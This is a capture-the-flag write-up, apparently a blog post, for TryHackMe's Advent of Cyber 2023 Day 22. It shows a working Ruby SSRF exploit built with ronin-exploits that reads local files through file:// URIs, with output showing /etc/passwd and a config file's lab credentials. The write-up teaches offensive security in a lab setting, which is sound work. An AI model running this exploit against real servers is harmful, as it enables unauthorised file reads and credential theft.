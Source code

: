 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 22 with ronin-exploits
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin-exploits
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

We made it to Day 22 of Advent of Cyber 2023. This challenge involves exploiting
a super simple [Server Side Request Forgery (SSRF)][SSRF] vulnerability.
While most SSRF vulnerabilities allow sending HTTP requests to internal
web servers, the instructions hint that you can also send `file://` URIs and
request local files. You could solve this challenge only using `curl`,
but I decided to use [ronin-exploits] to write a SSRF exploit that requests a
local file.

First we will use the `ronin-exploits new` command to generate a new web
exploit. We will also enable the [Loot mixin][Ronin::Exploits::Mixins::Loot]
to store the requested files.

```shell
$ ronin-exploits new --type web --loot jingle_bells_ssrf.rb
	erb	exploit.rb.erb	jingle_bells_ssrf.rb
	chmod	jingle_bells_ssrf.rb
```

Testing the vulnerable `/getClientData.php` HTTP end-point shows that local
files requested with `file://` are returned in the HTTP response body.
Requesting a file that does not exist on the system will result in a HTTP 200
response, but with an empty response body. To send the HTTP request, we will use
the [http_get] helper method, which accepts a path and additional query
params, sends a HTTP `GET` request, and returns the response body as a String.
We will also need to define a `file` param for the local file we wish to
request via `file://` SSRF. Since this is a super simple SSRF exploit,
we will only need to fill in the `launch` method.

```ruby
#!/usr/bin/env -S ronin-exploits run -f

require 'ronin/exploits/web'
require 'ronin/exploits/mixins/loot'

module Ronin
  module Exploits
    class JingleBellsSSRF < Web

      include Mixins::Loot

      register 'jingle_bells_ssrf'

      quality :poc
      release_date '2023-12-22'

      author "Postmodern", email: "postmodern.mod3@gmail.com"
      summary "Advent of Cyber 2023 Day 22"
      description <<~DESC
        A Basic SSRF exploit for Advent of Cyber 2023 Day 22 aka
        "Jingle Your SSRF Bells: A Merry Command & Control Hackventure".
      DESC
      references [
        "https://tryhackme.com/room/adventofcyber2023"
      ]

      param :file, required: true,
                   desc:     'The path of the local file to request'

      def launch
        file_uri = "file://#{params[:file]}"
        response = http_get('/getClientData.php', query_params: {url: file_uri})

        if response.code == '200' && !response.body.empty?
          print_success "Got the file!"

          loot.add(params[:file],response.body)
        else
          fail("Failed to request the file: #{params[:file]}")
        end
      end

    end
  end
end
```

Now that our exploit is written, let's run it!

```
$ ./jingle_bells_ssrf.rb -p base_url=http://10.10.108.219 -p file=/etc/passwd
>>> Running exploit jingle_bells_ssrf ...
[+] Got the file!
>>> Exploit found the following loot:

  /etc/passwd:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:111:1::/var/cache/pollinate:/bin/false
    ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```

We have successfully exploited the SSRF vulnerability and achieved local file
read access. The challenge instructions hints that we should try requesting
`config.php` from the `/var/www/html/` directory, which may contain the C2
panel's credentials.

```
$ ./jingle_bells_ssrf.rb -p base_url=http://10.10.108.219 -p file=/var/www/html/config.php
```
```
>>> Running exploit jingle_bells_ssrf ...
[+] Got the file!
>>> Exploit found the following loot:

  /var/www/html/config.php:

    <?php
    $username = "mcgreedy";
    $password = "mcgreedy!@#$%";
    
    ?>

```

Jack pot!

As you can see, [ronin-exploits] makes it easy to write [SSRF] exploits and
exfiltrate files.

[SSRF]: https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
[ronin-exploits]: https://github.com/ronin-rb/ronin-exploits#readme
[Ronin::Exploits::Mixins::Loot]: https://ronin-rb.dev/docs/ronin-exploits/Ronin/Exploits/Mixins/Loot.html
[http_get]: https://ronin-rb.dev/docs/ronin-exploits/Ronin/Exploits/Mixins/HTTP.html#http_get-instance_method
